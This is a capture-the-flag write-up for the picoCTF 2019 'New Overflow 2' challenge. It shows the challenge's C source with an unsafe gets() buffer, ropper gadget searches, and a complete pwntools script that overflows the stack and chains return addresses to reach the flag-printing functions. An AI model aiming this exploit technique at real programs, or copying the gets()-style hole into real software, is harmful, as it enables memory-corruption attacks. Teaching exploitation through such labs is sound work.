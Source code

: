 [Back](PicoFrontPage.md)

# New Overflow 2
---

### Intro
* You'll need to understand 64-bit calling conventions for this challenge

### Source Code
```c
bool win1 = false;
bool win2 = false;

void win_fn1(unsigned int arg_check) {
  if (arg_check == 0xDEADBEEF) {
    win1 = true;
  }
}

void win_fn2(unsigned int arg_check1, unsigned int arg_check2, unsigned int arg_check3) {
  if (win1 && \
      arg_check1 == 0xBAADCAFE && \
      arg_check2 == 0xCAFEBABE && \
      arg_check3 == 0xABADBABE) {
    win2 = true;
  }
}

void win_fn() {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  if (win1 && win2) {
    printf("%s", flag);
    return;
  }
  else {
    printf("Nope, not quite...\n");
  }


  

}

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Can you match these numbers?");
  vuln();
  return 0;
}

```

#### Important Points:
* We have to set both bool variables (win1 and win2) to true so that the `win_fn()` function will print out the flag
* The `flag()` function

### Analysis
For this solution, you can actually just use the same method and script to solve it because of the `flag()` function being left in (most probably an accident).

I decided to go a different route and solve it through return-oriented programming. 
First, I tried to `pop` the arguments into the appropriate registers. 

To search for relevant ROP instructions I used ropper:
`ropper -f ./vuln`
To search for specific ROP instructions:
`ropper -f ./vuln --search "Enter instruction here"`

E.g. `ropper -f ./vuln --search "pop rdi"`

<!-- Insert pop rdi image here -->
![Pop RDI](../Images/PicoCTF2019/NewOverflow2poprdi.JPG)

However, I could not find a relevant instruction that included the `rbx` register.
So, I tried to skip directly to the addresses that set `win1` and `win2` variables to `true`.

<!-- Insert Disassembler image here -->
![win_fn1 disas](../Images/PicoCTF2019/NewOverflow2winfn1disas.JPG)

<!-- Insert Disassembler image here -->
![win_fn2 disas](../Images/PicoCTF2019/NewOverflow2winfn2disas.JPG)

I chained a bunch of `ret` instructions with the appropriate addresses and devised the appropriate script to execute.

### Exploit

Final script:

```python
from pwn import *

p = process('./vuln')

# variables
win1 = 0x400777 # win1 = true
win2 = 0x4007b4 # win2 = true
ret = 0x40028d # ret instruction
win_fn = 0x4007be # win_fn function address

#payload
payload = b'A'*72
payload += p64(ret)
payload += p64(win1)
payload += p64(ret)
payload += p64(win2)
payload += p64(ret)
payload += p64(win_fn)

# receive until character
p.recvuntil(b'?')

# send payload as one line
p.sendline(payload)

# get a shell
p.interactive()
```

To run it through the pico2019 server you'll need the `ssh` feature:
```python
s = ssh(host='2019shell1.picoctf.com', user='YourUsername', password='YourPassword')
p = s.process('AbsolutePathToProgram', cwd='TheWorkingDirectoryOfProgram')
```

Run the script and you should win.

[New Overflow 1](newoverflow1writeup.md)
